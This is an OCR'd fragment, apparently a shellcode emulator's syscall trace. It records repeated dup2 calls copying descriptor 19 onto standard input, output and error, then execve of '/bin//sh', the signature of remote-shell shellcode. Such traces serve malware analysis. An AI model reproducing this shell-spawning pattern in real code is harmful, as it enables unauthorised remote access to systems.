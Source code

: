 ```cpp
     int oldfd = 19;
     int newfd = 12;
) =  12;
int dup2 (
     int oldfd = 19;
     int newfd = 11;
) =  11;
int dup2 (
     int oldfd = 19;
     int newfd = 10;
) =  10;
int dup2 (
     int oldfd = 19;
     int newfd = 9;
) =  9;
int dup2 (
     int oldfd = 19;
     int newfd = 8;
) =  8;
int dup2 (
     int oldfd = 19;
     int newfd = 7;
) =  7;
int dup2 (
     int oldfd = 19;
     int newfd = 6;
) =  6;
int dup2 (
     int oldfd = 19;
     int newfd = 5;
) =  5;
int dup2 (
     int oldfd = 19;
     int newfd = 4;
) =  4;
int dup2 (
     int oldfd = 19;
     int newfd = 3;
) =  3;
int dup2 (
     int oldfd = 19;
     int newfd = 2;
) =  2;
int dup2 (
     int oldfd = 19;
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 19;
     int newfd = 0;
) =  0;
int execve (
     const char * dateiname = 0x00416fb6 => 
           = "/bin//sh";
     const char * argv[] = [
           = 0xffffffff => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;
```
